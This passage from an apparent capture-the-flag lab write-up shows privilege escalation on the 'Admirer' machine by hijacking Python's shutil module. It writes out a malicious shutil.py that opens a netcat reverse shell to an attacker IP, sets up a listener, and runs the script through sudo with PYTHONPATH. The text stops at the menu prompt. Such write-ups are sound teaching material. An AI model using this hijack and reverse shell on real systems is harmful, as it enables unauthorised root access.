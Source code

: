 Notice that this calls another script, let's have a look at that:

{% highlight bash %}
waldo@admirer:~$ cat /opt/scripts/backup.py
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
{% endhighlight %}

Notice this is creates that archive we pulled from the FTP earlier. But we don't have direct access to run or edit this script. We do have access to one python script at this point though.

From a bit of research I found out that we can use [Privilege Escalation via Python Library Hijacking](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/). Basically we can change the path where Python itself looks for ***shutil***. We can create our own shutil and have python use that as it runs that script Waldo has access to.

{% highlight bash %}
waldo@admirer:~$ mkdir shutil
waldo@admirer:~$ cd shutil
waldo@admirer:~/shutil$ nano shutil.py
{% endhighlight %}

Here's what you'll need to put in:

{% highlight text %}
import os

def make_archive(a, b, c):
  os.system('nc 10.10.14.30 4444 -e "/bin/sh"')
{% endhighlight %}

Next we set up an netcat listener to listen on that port we specified in the script we just wrote:

{% highlight bash %}
kali@kali:~$ nc -lvnp 4444
listening on [any] 4444 ...

{% endhighlight %}

And then we execute the script:

{% highlight bash %}
waldo@admirer:~/shutil$ cat shutil.py
import os

def make_archive(a, b, c):
    os.system('nc 10.10.14.30 4444 -e "/bin/sh"')
waldo@admirer:~/shutil$ sudo PYTHONPATH=~/shutil /opt/scripts/admin_tasks.sh
[sudo] password for waldo:

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6